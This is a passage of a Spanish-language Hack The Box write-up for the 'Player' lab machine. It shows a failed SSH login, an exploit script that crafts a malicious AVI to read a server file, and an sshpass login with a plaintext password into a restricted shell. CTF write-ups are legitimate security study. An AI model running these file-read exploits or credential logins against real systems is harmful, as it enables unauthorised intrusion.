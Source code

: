 No son válidas por SSH para el usuario ```telegen```

```null
ssh telegen@10.10.10.145
The authenticity of host '10.10.10.145 (10.10.10.145)' can't be established.
ED25519 key fingerprint is SHA256:8rmrsyqW6LHgmTrVtFYDb+HfglaTm6iWUYZCxFUGg8E.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.145' (ED25519) to the list of known hosts.
telegen@10.10.10.145's password: 
Permission denied, please try again.
```

Me traigo el archivo ```fix.php```

```null
python3 gen_xbin_avi.py file:///var/www/staging/fix.php fix.avi
```

Pero no contiene nada interesante

<img src="/writeups/assets/img/Player-htb/10.png" alt="">

La máquina tenía otro puerto abierto por SSH, asi que intento conectarme por este. Gano acceso a un contenedor

```null
sshpass -p 'd-bC|jC!2uepS/w' ssh telegen@10.10.10.145 -p 6686
Last login: Tue Apr 30 18:40:13 2019 from 192.168.0.104
Environment:
  USER=telegen
  LOGNAME=telegen
  HOME=/home/telegen
  PATH=/usr/bin:/bin:/usr/sbin:/sbin:/usr/local/bin
  MAIL=/var/mail/telegen
  SHELL=/usr/bin/lshell
  SSH_CLIENT=10.10.16.5 51372 6686
  SSH_CONNECTION=10.10.16.5 51372 10.10.10.145 6686
  SSH_TTY=/dev/pts/0
  TERM=xterm-kitty
========= PlayBuff ==========
Welcome to Staging Environment

telegen:~$
```
